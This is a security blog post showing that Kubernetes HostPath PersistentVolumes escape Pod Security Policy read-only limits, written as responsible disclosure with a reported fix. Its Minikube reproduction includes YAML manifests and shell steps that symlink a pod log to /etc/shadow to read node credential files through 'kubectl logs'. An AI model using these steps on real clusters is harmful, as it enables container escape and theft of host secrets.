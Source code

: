 ```yaml
---
layout: post
title:  "Dangers of HostPath PersistentVolumes"
date:   2020-03-05 20:12:50 -0800
categories: containers
---
```


## Intro

In this post we'll talk about some dangers that arise
when using a specific type of Kubernetes storage object, 
which cannot be secured by operators and can result in
Pod escapes.

## Background

In Kubernetes, a `PersistentVolume` object is an API
object that represents a Volume (some kind of mount for a Pod),
which can make it easier for operators to keep track
of the Volume. A "share" of a `PersistentVolume` can
be claimed by a Pod via a `PersistentVolumeClaim` object:

| ![pvdocs](/assets/images/pvdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#introduction> |


To actually use a Volume defined by a `PersistentVolume` object,
a Pod's spec references an associated `PersistentVolumeClaim` in
its namespace:

| ![pvcdocs](/assets/images/pvcdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#claims-as-volumes> |


A `PersistentVolume` object can define the [same types](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#types-of-persistent-volumes) of Volumes commonly defined
inline within a Pod's YAML spec, such as `HostPath`.

## Problem Statement

Trail of Bits noted in their Kubernetes audit that `HostPath` type `PersistentVolume`
objects *are not* checked against the [`hostPath`-relevant directives](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems) in a user's Pod Security Policy (PSP):

| ![tobpvbug](/assets/images/tobpvbug.png) | 
|:--:| 
| <https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf> |

Their exploit scenario involved an attacker who, as per their PSP, was *unable* to use `hostPath`
Volumes, but was allowed to create Pods, `PersistentVolume` objects, and `PersistentVolumeClaim` objects.
In this case, the attacker can create a `HostPath` type `PersistentVolume` specifying a mount at the Node's home
directory, and reference that in a subsequent `PersistentVolumeClaim` and Pod reference, thus achieving Pod that
can access the Node's home directory, despite the PSP that is in place.

Kubernetes reponded in turn and added the following language to the documentation:

| ![pvorigwarning](/assets/images/pvorigwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/15756> |

However, **there is an additional angle to build on here**. 

It is known that *writable* `hostPath` Volumes are insecure, and Aqua has a [fantastic writeup](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) on *one such* example of why this is the case. In Aqua's writeup, they
demonstrate how a Pod that receives a writable `hostPath` Volume of `/var/log` can access *any* files on the Node's
filesystem. You should read the writeup, but this occurs because said Pod can overwrite its (or any other Pod's) `0.log` logfile with a symlink to e.g. `/etc/shadow`, and this symlink is followed by the Node upon any `kubectl logs PODNAME` invocation for the Pod whose logfile has been poisoned!

This is somewhat of a contrived example, but Kubernetes is weary of such trickery, and so they have declared any writeable `hostPath` Volume insecure:

| ![pvorigwarning](/assets/images/readfswarning.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems> |

But note their prescribed fix in the figure above: use the `readOnly: true` sub-directive within the
`allowedHostPaths` directive in a user's PSP in order to make `hostPath` Volumes read-only, and thus safe.
But wait! As we discussed earlier, those directives are not checked for `HostPath` type `PersistentVolume`
objects! And while `PersistentVolume` objects have an `accessModes` directive, support for individual access
modes is determined by the implementation of the underlying storage driver, and a read-only `accessMode` is not supported for `HostPath` type `PersistentVolumes`:

| ![pvorigwarning](/assets/images/pvaccessmodesupport.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#persistent-volumes> |

**Exploit Scenario:**

An operator wishes to provide a Pod with a read-only copy of the Node's `/var/log`, such that the Pod can view other Pods'
logs, and they choose to represent this as a `HostPath` type `PersistentVolume`.

* The operator reads the aforementioned warning in the PSP documentation, and thus sets `readOnly: true` in `allowedHostPaths` for the `PersistentVolume`, assuming this makes the mount read-only, [as it does for inline `hostPath` Volumes](https://github.com/kubernetes/kubernetes/pull/58647).

* Since the Pod can actually write to `/var/log`, the Pod receiving this Volume mount can follow the steps in Aqua's writeup. By writing a symlink to a Pod's logfile, they can read *any* file off of the Node's filesystem, not just what is in `/var/log/`.

**Minikube Example**

Here are some example Kubernetes objects and steps that can be used to reproduce the
exploit scenario above:

* Reads the docs, and sets `readOnly: true` in a PSP for `hostPath`
Volumes, in order to prevent attacks surrounding writing and symlinks;
the operator wants a Pod with read-only access to other Pods' logs.

~~~
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
   name: psp-restricted
spec:
   allowPrivilegeEscalation: false
   allowedHostPaths:
   - pathPrefix: /var/log
     readOnly: true
   fsGroup:
     rule: RunAsAny
   requiredDropCapabilities:
   - ALL
   runAsUser:
     rule: RunAsAny
   seLinux:
     rule: RunAsAny
   supplementalGroups:
     rule: RunAsAny
   volumes:
   - configMap
   - persistentVolumeClaim
   - emptyDir
   - secret
   - projected
   - nfs
~~~

* Creates a `PersistentVolume` of type `HostPath`, which allows a Pod to
access `/var/log`, under the assumption it is read-only via the PSP
directive (that is not checked for `HostPath` Volumes defined by `PersistentVolume` objects)

~~~
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"

apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
~~~

* But a Pod can still write a symlink to its `0.log` file, which is
followed by the Node upon `kubectl logs PODNAME` in order to read *any* file from the Node

~~~
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
            name: task-pv-storage-vol
~~~

~~~
kubectl exec -it task-pv-pod -n default /bin/bash
~~~

~~~
cd /hostlogs/pods/default_task-pv-pod_c9030cba-f67b-4564-8bbc-531d87e63920/task-pv-container/
~~~

~~~
rm 0.log
~~~

~~~
ln -s /etc/shadow 0.log
~~~

~~~
kubectl logs task-pv-pod -n default
failed to get parse function: unsupported log format:
"root:*:15887:0:::::\n"
~~~


## Fix?

At this point, we've seen why **any `HostPath` type `PersistentVolume` object should
be considered suspect because they cannot be made read-only**. While the `/var/log` example
is the only one I know of, there might be more, which is why the documentation warns about
writable `hostPath` Volumes in the first place.

I reported this behavior to Kubernetes, and, to address this, 
Kubernetes is doing two things:

* Updating the documentation's language to state that `HostPath` type `PersistentVolume` objects
cannot be made read-only, which, as we know, is insecure by design

| ![newdocwarning](/assets/images/newdocwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/19504/> |

* [Requesting](https://github.com/kubernetes/kubernetes/issues/88880) a feature for read-only `HostPath` type `PersistentVolume` objects